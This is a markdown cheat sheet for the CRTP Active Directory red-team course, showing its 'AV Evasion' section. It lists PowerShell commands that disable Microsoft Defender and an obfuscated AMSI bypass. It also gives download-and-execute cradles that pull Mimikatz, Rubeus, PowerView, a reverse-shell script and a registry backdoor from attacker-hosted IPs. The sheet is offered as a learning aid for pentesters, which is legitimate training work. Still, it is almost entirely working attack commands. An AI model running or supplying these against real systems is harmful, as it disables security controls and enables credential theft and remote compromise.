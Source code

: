 # Certified Read Team Professional (CRTP) - Cheatsheet 

 **Name** : **CRTP - Active Directory Command Cheat Sheet (Powershell)**
 
 **Course Link** : https://www.alteredsecurity.com/adlab

 **Compiled By** : **Nikhil Raj ( Twitter: https://twitter.com/0xn1k5 | Blog: https://organicsecurity.in )**

 **Version: 1.0**
 
 **Last Updated** : 23 Sep 2022

 **Disclaimer** : This cheat sheet has been compiled from multiple sources with the objective of aiding fellow pentesters and red teamers in their learning. The credit for all the tools and techniques belongs to their original authors. I have added a reference to the original source at the bottom of this document.  


# AV Evasion

**Disable MS Defender**

- Bypass the execution policy

  ```powershell
  powershell -ep Bypass

- Disable AV using powershell (Requires Local Admin rights)

  ```powershell
  Get-MPPreference
  Set-MPPreference -DisableRealTimeMonitoring $true
  Set-MPPreference -DisableIOAVProtection $true
  Set-MPPreference -DisableIntrusionPreventionSystem $true

- Bypass AMSI Check (If Admin rights are not available)
  ```powershell
  S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

- Download and save the file on disk

  ```powershell
  iwr http://192.168.100.XX/rubeus.exe -outfile rubeus.exe
  powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1')

- Download and execute cradle (Files can be hosted using HFS.exe or Python Webserver)

  ```powershell
  iex (New-Object Net.WebClient).DownloadString('http://192.168.100.XX/PowerView.ps1')
  iex (New-Object Net.WebClient).DownloadString('http://192.168.100.XX/Invoke-Mimikatz.ps1')
  iex (New-Object Net.WebClient).DownloadString('http://192.168.100.XX/mimilib.dll')
  iex (New-Object Net.WebClient).DownloadString('http://192.168.100.XX/Set-RemotePSRemoting.ps1')
  iex (New-Object Net.WebClient).DownloadString('http://192.168.100.XX/Set-RemoteWMI.ps1')
  iex (New-Object Net.WebClient).DownloadString('http://192.168.100.XX/MS-RPRN.exe')
  iex (New-Object Net.WebClient).DownloadString('http://192.168.100.XX/Rubeus.exe')
  iex (New-Object Net.WebClient).DownloadString('http://192.168.100.XX/Add-RemoteRegBackdoor.ps1')
  iex (New-Object Net.WebClient).DownloadString('http://192.168.100.XX/Find-PSRemotingLocalAdminAccess.ps1')
  iex (New-Object Net.WebClient).DownloadString('http://192.168.100.XX/Find-WMILocalAdminAccess.ps1')
  ```